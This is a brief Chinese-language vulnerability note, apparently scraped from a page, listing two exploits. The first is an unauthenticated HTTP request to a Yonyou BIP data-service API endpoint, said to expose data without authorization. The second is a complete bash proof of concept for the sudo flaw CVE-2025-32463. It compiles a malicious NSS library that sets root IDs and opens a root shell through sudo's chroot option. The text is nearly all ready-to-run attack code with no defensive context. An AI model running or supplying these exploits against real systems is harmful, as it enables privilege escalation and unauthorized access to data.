   
  
  
漏洞名称：  
用友BIP数据应用服务存在未授权访问  
  
漏洞描述：  

```
GET /bi/api/SemanticModel/GetOlapConnectionList/?token=e30fe47a-f33e-463e-bc4a-843957ca88dd_263720ea7e397482da220115cae828_1214162142339 HTTP/1.1
Host: target.com
Accept: application/json
Connection: close


```

  
  
漏洞名称：  
 CVE-2025-32463    
 sudo提权  
  
漏洞描述：  

```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1


cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>


__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir(&#34;/&#34;);
  execl(&#34;/bin/bash&#34;, &#34;/bin/bash&#34;, NULL);
}
EOF


mkdir -p woot/etc libnss_
echo &#34;passwd: /woot1337&#34; > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c


echo &#34;woot!&#34;
sudo -R woot woot
rm -rf ${STAGE?}
```
